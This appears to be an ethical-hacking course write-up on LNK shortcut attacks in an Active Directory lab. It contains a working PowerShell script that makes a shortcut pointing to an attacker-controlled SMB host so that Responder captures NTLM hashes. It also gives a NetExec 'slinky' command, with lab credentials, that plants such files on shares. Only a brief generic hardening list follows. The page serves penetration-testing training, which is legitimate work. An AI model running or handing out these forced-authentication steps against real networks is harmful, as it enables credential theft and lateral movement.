



# 🛡️ LNK File Attacks

> **Course:** [Practical Ethical Hacking](../../README.md)  
> **Module:** [Attacking Active Directory: Post-Compromise Attacks ](./README.md)  
> **Navigation Path:** `Practical Ethical Hacking > Attacking Active Directory: Post-Compromise Attacks  > LNK File Attacks`

---

## 🎯 Executive Summary & Technical Objectives
This document details the practical methodology, tooling, exploitation chain, and defensive remediation for **LNK File Attacks** as conducted in the TCM Security lab environment.

---

## 🔬 Hands-On Walkthrough & Technical Evidence



*Figure: Lab Execution Screenshot / Proof of Exploit*


The following code will create a file for us

```plain text
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

If we have responder up and that file is triggered than it will capture a hash

Once the file is triggers if we run responder the hashes wil come flying



*Figure: Lab Execution Screenshot / Proof of Exploit*


we can use



*Figure: Lab Execution Screenshot / Proof of Exploit*


Additional resources for forced authentication: [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)
Automated attack using CME/NetExec:
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149


---

## 🛡️ Defensive Hardening & Detection Signatures
- **Monitoring & Auditing:** Enable granular auditing for process creation (Windows Event ID 4688 / Sysmon Event 1) and network connections (Sysmon Event 3).
- **Least Privilege:** Enforce strict principle of least privilege across user accounts and service configurations.
- **Continuous Validation:** Conduct routine vulnerability scanning and automated configuration reviews to identify drift.

---
[⬅ Back to Attacking Active Directory: Post-Compromise Attacks ](./README.md) • [🏠 Master Course Index](../README.md)
